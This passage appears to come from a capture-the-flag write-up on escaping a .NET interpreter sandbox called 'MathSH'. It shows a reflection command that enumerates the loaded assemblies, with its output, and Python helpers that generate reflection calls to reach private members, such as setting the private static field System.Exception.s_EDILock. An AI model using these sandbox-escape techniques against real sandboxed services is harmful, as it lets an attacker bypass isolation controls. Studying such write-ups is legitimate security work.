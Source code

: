 ```
MathSH> memset(__global__.System.String.Join("\n", __global__.JScriptRunner.JScriptUtils.CallMethod(__global__.JScriptRunner.JScriptUtils.GetMethod(__global__.System.AppDomain, "GetAssemblies", false, true, false, array()), __global__.System.AppDomain.CurrentDomain, array())), 808080)
MathSH> memlist()
mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
JScriptRunner, Version=1.0.0.0, Culture=neutral, PublicKeyToken=8591fe505af48527
System.Core, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
SlimlineJScript, Version=1.3.8.0, Culture=neutral, PublicKeyToken=8591fe505af48527
Antlr3.Runtime, Version=3.1.3.22795, Culture=neutral, PublicKeyToken=63cc7d09cf70b7c1 = 808080
```
Time for some infrastructure!
```
def convert_arg(arg):
    if isinstance(arg, basestring):
        return '"{}"'.format(arg)
    elif isinstance(arg, bool):
        return str(arg).lower()
    elif isinstance(arg, (int, long)):
        return str(arg)
    elif isinstance(arg, list):
        return MakeArray(*arg)

    raise Exception("Unconvertible argument!")


def MakeArray(*args):
    return "array({})".format(', '.join([str(arg) for arg in args]))


JScriptUtils = '__global__.JScriptRunner.JScriptUtils'
GetMethod_func = '__global__.JScriptRunner.JScriptUtils.GetMethod'
CallMethod_func = '__global__.JScriptRunner.JScriptUtils.CallMethod'

def GetMethod(target_object, name, static_type, case_sensitive, non_public, args):
    return '{func}({target_object}, {name}, {static_type}, {case_sensitive}, {non_public}, {args})'.format(
        func=GetMethod_func,
        target_object=target_object,
        name=convert_arg(name),
        static_type=convert_arg(static_type),
        case_sensitive=convert_arg(case_sensitive),
        non_public=convert_arg(non_public),
        args=args,
    )

def CallMethodImpl(method, target, *args):
    return '{func}({method}, {target}, {args})'.format(
        func=CallMethod_func,
        method=method,
        target=target,
        args=MakeArray(*args),
    )
```
Now we can write sensible python code to talk with the interpreter. This is an example of how to set a value of a private static field (`System.Exception.s_EDILock`):
```
# Type.GetField
GetField_method = GetMethod(Type, "GetField", False, True, False, MakeArray(convert_arg("asdf"), GetFlags(True, True, True)))

# typeof(System.Exception).GetField("s_EDILock", BindingFlags.Static | BindingFlags.NonPublic)
ex_s_EDILock_field = CallMethodImpl(GetField_method, ExceptionType, convert_arg("s_EDILock"), GetFlags(True, True, True))
```